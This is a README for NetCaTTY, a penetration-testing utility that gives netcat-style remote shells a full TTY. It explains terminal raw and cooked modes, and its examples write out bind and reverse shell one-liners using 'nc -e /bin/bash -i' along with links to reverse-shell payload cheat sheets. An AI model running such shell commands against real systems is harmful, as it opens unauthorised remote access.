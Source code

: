 # NetCaTTY

A simple TCP socket utility that gives you a TTY, either by listening or by
connecting to a remote.

## Why do I need a TTY?

It's like comparing a netcat shell to SSH. SSH is able to pass EVERYTHING that
you type to the remote. `Ctrl-C`, `Ctrl-Z` and friends work as expected and you
don't kill your session. The way that SSH achieves that behaviour is by spawning
the target process (shell) inside a PTY (a pseudo-TTY), putting the local
PTY (that your terminal gives you) in "raw mode", where the program is able
to handle all keystrokes, and forwards them to the remote PTY.

## How does this work?

Well it's mostly arcane magic, as TTYs (and by extent PTYs) are an ancient
technology used in teletypes (TeleTYpewriter and Pseudo-TeletYpewriter),
written around the 60s where everyone had no idea what they're doing and
drugs where at their best. So I'm not exactly sure, but I'm gonna try to explain
what I have in my head right now - if you wanna read the real thing and not
what I figured out by trial and error in 2 days,
read [this](http://www.linusakesson.net/programming/tty/index.php).

It's something like a buffer between the running program (`bash -i` lets say)
and the stdin (keyboard?). It has two modes (or more? I saw some weird
flags in termios): raw and cooked.

In cooked mode, the input is buffered line by line, so that `Ctrl-D`,
`Backspace` and other keys can be processed. This is the default mode when
you get input from stdin in your program.

In raw mode on the other hand, everything (or most things?) are passed to the
program (even `Backspace` and `Ctrl-C`) and it handles them itself. Even
character echo is disabled (where every character you type is displayed
on the screen).

So what we need to achieve is a cooked PTY on the remote (so it handles `Ctrl-C`
locally) where will take stdin from us and send stdout to us

The problems on achieving a cooked mode on the remote with the remote shell
are that first of all your local PTY is in cooked mode (so your netcat doesn't
ever receive that `Delete` character, your PTY handles it) and even if you put
your PTY in raw mode, the remote has no PTY at all, as it was spawned by another
process (like `exec`).

So the first problem is kinda trivial, you put your PTY in raw mode - and I say
kinda because nobody has documented this shit enough in a language like Go
or Python.

The second problem is not that easy to solve. You need to open a PTY and spawn
a process inside it like you would do in your terminal (so `bash` and `bash -i`
will work the same, as most programs understand that they're inside a PTY and
start in interactive mode) and proxy your stdin (got from the local raw PTY) to
the remote's cooked PTY stdin, and do the reverse for stdout.

Now this problem is a real pain, cause nobody does that, especially in any
language other than C. I've found solutions to that for some shells
(like `import pty; pty.spawn("bash")` for python) and I've integrated them into
the tool.

## Examples

Please don't hurt puppers or kitties with them!

If you're short on ideas for payloads, check the following:

 - msfvenom
 - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) by swisskyrepo
 - [oneliner.sh](https://github.com/operatorequals/oneliner-sh) by operatorequals

### Bind shell

Target machine (with IP 192.168.1.1): `nc -e "/bin/bash -i" -lp 4444`

Your terminal: `./netcatty -a 192.168.1.1:4444`

### Reverse shell

Target machine: `nc -e "/bin/bash -i" 192.168.1.100 4444`

Your terminal (with IP 192.168.1.100): `./netcatty -l :4444`

## Installation

Compile it on your own:

```bash
git clone https://github.com/dzervas/netcatty
cd netcatty
go run netcatty.go -h
```

## Usage

```
Usage of ./netcatty:
  -a string
    	Listen/Connect address in the form of 'ip:port'.
    	Domains, IPv6 as ip and Service as port ('localhost:http') also work. (default ":4444")
  -l	Enable listening mode
  -m	Disable automatic shell detection and TTY spawn on remote
  -n string
    	Network type to use. Known networks are:
    	To connect: tcp, tcp4 (IPv4-only), tcp6 (IPv6-only), unix and unixpacket
    	To listen: tcp, tcp4, tcp6, unix or unixpacket
    	 (default "tcp")
```

---

Credits at [operatorequals](https://github.com/operatorequals) for making me
write this and at [mattn](https://github.com/mattn) for creating [go-tty](https://github.com/mattn/go-tty).
